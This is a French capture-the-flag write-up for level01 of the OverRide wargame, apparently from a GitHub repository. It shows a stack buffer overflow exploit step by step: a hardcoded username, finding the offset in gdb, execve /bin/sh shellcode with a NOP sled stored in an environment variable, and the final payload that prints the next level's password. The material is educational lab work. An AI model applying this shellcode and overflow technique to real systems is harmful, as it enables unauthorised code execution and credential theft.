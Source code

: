 # Level1

On observe que l'exécutable lit un input sur l'entrée standard

```shell
$ ./level01
********* ADMIN LOGIN PROMPT *********
Enter Username: Hello World
verifying username....

nope, incorrect username...
```

On regarde l'assembleur et on remarque qu'il compare notre input de `Username` à
`dat_wil`. Ensuite, on voit qu'il segfault si le mot de passe est trop grand.

```shell
$ python -c 'print("dat_wil\n" + "A"*40)' | ./level01
********* ADMIN LOGIN PROMPT *********
Enter Username: verifying username....

Enter Password:
nope, incorrect password...

$ python -c 'print("dat_wil\n" + "A"*200)' | ./level01
********* ADMIN LOGIN PROMPT *********
Enter Username: verifying username....

Enter Password:
nope, incorrect password...

Segmentation fault (core dumped)
```

On utilise donc wiremask pour trouver l'offset, qui est de 80

```shell
level01@OverRide:~$ gdb level01 -q
Reading symbols from /home/users/level01/level01...(no debugging symbols found)...done.
(gdb) r
Starting program: /home/users/level01/level01
********* ADMIN LOGIN PROMPT *********
Enter Username: dat_wil
verifying username....

Enter Password:
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag
nope, incorrect password...


Program received signal SIGSEGV, Segmentation fault.
0x37634136 in ?? ()

```

On va mettre notre shellcode dans une variable d'environnement et regarder son adresse

```shell
$ export Shellcode=$(python -c 'print "\x90"*100 +"\x31\xc0\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x50\x89\xe1\x50\x89\xe2\xb0\x0b\xcd\x80"')

$ gdb level01 -q
Reading symbols from /home/users/level01/level01...(no debugging symbols found)...done.

(gdb) b *main
Breakpoint 1 at 0x80484d0

(gdb) run
Starting program: /home/users/level01/level01

Breakpoint 1, 0x080484d0 in main ()

(gdb) x/s *((char **)environ)
0xffffd860: "Shellcode=\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\061\300Phn/shh//bi\211\343P\211\341P\211\342\260\v̀"
```

Assemblons toutes les pièces

```shell
$ (python -c 'print("dat_wil\n" + "A"*80 + "\xff\xff\xd8\x80"[::-1])'; cat) | ./level01
********* ADMIN LOGIN PROMPT *********
Enter Username: verifying username....

Enter Password:
nope, incorrect password...

cat /home/users/level02/.pass
PwBLgNa8p8MTKW57S7zxVAQCxnCpV8JqTTs9XEBv
```
